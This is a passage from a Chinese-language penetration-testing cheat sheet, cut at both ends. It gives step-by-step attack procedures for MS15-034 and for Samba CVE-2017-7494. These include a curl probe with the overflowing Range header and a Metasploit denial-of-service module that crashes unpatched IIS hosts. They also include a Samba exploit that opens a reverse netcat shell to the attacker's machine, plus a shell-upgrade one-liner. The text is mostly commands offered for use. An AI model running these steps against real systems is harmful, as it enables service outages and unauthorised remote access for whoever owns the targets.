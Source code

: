     5.  **执行攻击**: `exploit`
    6.  **结果**: 成功则获得 Meterpreter 会话.

#### MS15-034
*   **描述**: HTTP.sys 处理畸形 Range 请求头时存在漏洞，主要导致 DoS，特定条件下可能 RCE.
*   **原理**: 发送包含超大范围值的 `Range: bytes=0-18446744073709551615` 请求头.
*   **流程**:
    1.  **环境**: Target running Windows with IIS enabled, *without* patch KB3042553.
    2.  **探测**:
        ```bash
        # Using curl
        curl -v http://<Target_IP>/ -H "Host: test" -H "Range: bytes=0-18446744073709551615"
        # Vulnerable: Returns "Requested Range Not Satisfiable" (416)
        # Patched: Returns "Bad Request" (400) or other error
        ```
        *   Or use MSF Scanner:
            ```
            use auxiliary/scanner/http/ms15_034_http_sys_memory_dump
            set RHOSTS <Target_IP>
            run
            ```
    3.  **DoS 攻击**:
        ```
        use auxiliary/dos/http/ms15_034_ulonglongadd
        set RHOSTS <Target_IP>
        run
        ```
    4.  **结果**: 未打补丁的系统可能蓝屏或服务崩溃.

#### Linux Samba 低版本漏洞
*   **描述**: 较早的 Samba 版本存在多个漏洞，如 `is_known_pipename` (CVE-2017-7494) 或更早的命令执行漏洞。
*   **流程**:
    1.  **探测**:
        ```bash
        nmap -p 139,445 --script smb-vuln* <Target_IP>
        # Or use MSF:
        use auxiliary/scanner/smb/smb_version
        set RHOSTS <Target_IP>
        run
        ```
    2.  **利用** (Example: CVE-2017-7494):
        ```
        use exploit/linux/samba/is_known_pipename
        set RHOSTS <Target_IP>
        set LHOST <Your_IP>
        # Set Payload if needed (often defaults to cmd/unix/reverse_netcat)
        exploit
        ```
    3.  **优化 Shell** (If you get a basic shell):
        ```bash
        python -c 'import pty; pty.spawn("/bin/bash")'
        # Or: python3 -c 'import pty; pty.spawn("/bin/bash")'